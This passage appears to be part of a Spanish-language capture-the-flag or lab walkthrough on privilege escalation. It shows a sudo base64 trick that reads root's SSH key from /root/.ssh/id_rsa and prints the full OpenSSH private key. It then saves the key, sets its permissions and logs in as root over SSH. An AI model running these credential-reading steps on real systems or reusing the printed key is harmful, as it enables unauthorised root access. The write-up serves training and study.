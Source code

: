 ```shell
LFILE=/root/.ssh/id_rsa
sudo base64 "$LFILE" | base64 --decode
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAw6MgMnxUy+W9oem0Uhr2cJiez37qVubRK9D4kdu7H5NQ/Z0FFp2B
IdV3wx9xDWAICJgtYQUvOV7KFNAWvEXTDdhBwdiUcWEJ4AOXK7+5v7x4b8vuG5zK0lTVxp
DEBE8faPj3UaHsa1JUVaDngTIkCa6VBICvG0DCcfL8xHBpCSIfoHfpqmOpWT/pWXvGI3tk
/Ku/STY7Ay8HtSgoqCcf3F+lb9J9kwKhFg9eLO5QDuFujb1CN7gUy8xhgNanUViyCZRwn7
px+DfU+nscSEfG1zgfgqn2hCbBYqaP0jBgWcVL6YoMiwCS3jhmeFG4C/p51j3gI6b8yz9a
S+DtdTpDwQAAA8D82/wZ/Nv8GQAAAAdzc2gtcnNhAAABAQDDoyAyfFTL5b2h6bRSGvZwmJ
7PfupW5tEr0PiR27sfk1D9nQUWnYEh1XfDH3ENYAgImC1hBS85XsoU0Ba8RdMN2EHB2JRx
YQngA5crv7m/vHhvy+4bnMrSVNXGkMQETx9o+PdRoexrUlRVoOeBMiQJrpUEgK8bQMJx8v
zEcGkJIh+gd+mqY6lZP+lZe8Yje2T8q79JNjsDLwe1KCioJx/cX6Vv0n2TAqEWD14s7lAO
4W6NvUI3uBTLzGGA1qdRWLIJlHCfunH4N9T6exxIR8bXOB+CqfaEJsFipo/SMGBZxUvpig
yLAJLeOGZ4UbgL+nnWPeAjpvzLP1pL4O11OkPBAAAAAwEAAQAAAQBIArRoQOGJh9AMWBS6
oBgUC+lw4Ptq710Q7sOAFMxE7BnEsFZeI62TgZqqpNkdHjr2xuT1ME5YpK5niMzFkkIEd5
SEwK6rKRfUcB3lyZWaoMoIBJ1pZoY1c2qYw1KTb3hVUEbgsmRugIhwWGC+anFfavaJCMDr
nCO2g8VMnT/cTyAv/Qmi8m868KNEzcuzGV5ozHl1XLffHM9R/cqPPyAYaQIa9Z+kS6ou9R
iMTjTSxOPnfh286kgx0ry1se9BBlrEc5251R/PRkEKYrMj3AIwI30qvYlAtNfcCFhoJXLq
vWystPARwiUs7WYBUHRf6bPP/pHTTvwwb2bs51ngImpdAAAAgDaWnQ7Lj7Vp+mTjhSu4oG
ptDHNd2uuqB1+CHRcaVutUmknxvxG3p957UbvNp6e0+ePKtAIakrzbpAo6u25poyWugAuz
X2nQhqsQh6yrThDJlTiDMeV7JNGFbGOcanXXXHt3tjfyrS0+aM87WmwqNyh6nfgy1C5axR
fKZG8ivz5iAAAAgQD83QmCIcbZaCOlGwgHGcuCUDcxGY1QlIRnbM5VAjimNezGFs9f0ExD
SiTwFsmITP//njsbRZP2laiKKO6j4yp5LpfgDB5QHs+g4nXvDn6ns64gCKo7tf2bPP8VCe
FWyc2JyqREwE3WmyhkPlyr9xAZerZ+7Fz+NFueRYzDklWg8wAAAIEAxhBeLqbo6/GUKXF5
rFRatLXI43Jrd9pyvLx62KghsnEBEk7my9sbU5dvYBLztS+lfPCRxV2ZzpjYdN4SDJbXIR
txBaLJe3c4uIc9WjyxGwUK9IL65rSrRVERHsTO525ofPWGQEa2A+pRCpz3A4Y41fy8Y9an
2B2NmfTAfEkWFXsAAAALcm9vdEBiYXNlbWU=
-----END OPENSSH PRIVATE KEY-----
```

Y vemos que funciona, por lo que nos vamos a conectar por `SSH` mediante la `id_rsa` de `root`.

```shell
nano id_rsa

#Dentro del nano

<ID_RSA_ROOT>
```

Lo guardamos y le establecemos los permisos necesarios para que se comporte como una `id_rsa` real.

```shell
chmod 600 id_rsa
```

Ahora nos conectamos por `SSH` mediante el usuario `root` pasandole como parametro dicha `id_rsa`.

```shell
ssh -i id_rsa root@<IP>
```
